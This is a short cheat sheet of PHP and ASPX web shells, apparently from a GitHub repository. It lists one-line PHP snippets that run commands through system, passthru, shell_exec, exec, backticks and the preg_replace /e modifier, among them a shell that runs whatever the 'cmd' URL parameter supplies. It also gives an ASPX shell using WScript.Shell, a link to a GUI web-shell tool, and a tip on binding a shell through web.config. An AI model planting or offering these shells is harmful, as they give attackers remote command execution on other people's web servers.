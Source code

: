# PHP Webshells

#### Execute one command
```<?php system("whoami"); ?>```

#### Take input from the url paramter. shell.php?cmd=whoami
```<?php system($_GET['cmd']); ?>```

#### The same but using passthru
```<?php passthru($_GET['cmd']); ?>```

#### For shell_exec to output the result you need to echo it
```<?php echo shell_exec("whoami");?>```

#### Exec() does not output the result without echo, and only output the last line. So not very useful!
```<?php echo exec("whoami");?>```

#### Instead to this if you can. It will return the output as an array, and then print it all.
```<?php exec("ls -la",$array); print_r($array); ?>```

#### preg_replace(). This is a cool trick
```<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>```

#### Using backticks
```<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>```

#### Using backticks
```<?php echo `whoami`; ?>```

#### Web shell with GUI
Try Sweetuu : ```github.com/cspshivam/sweetuu```

# ASPX Webshell

#### Execute Command
```<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>```

This shell can be binded with ```web.config``` file
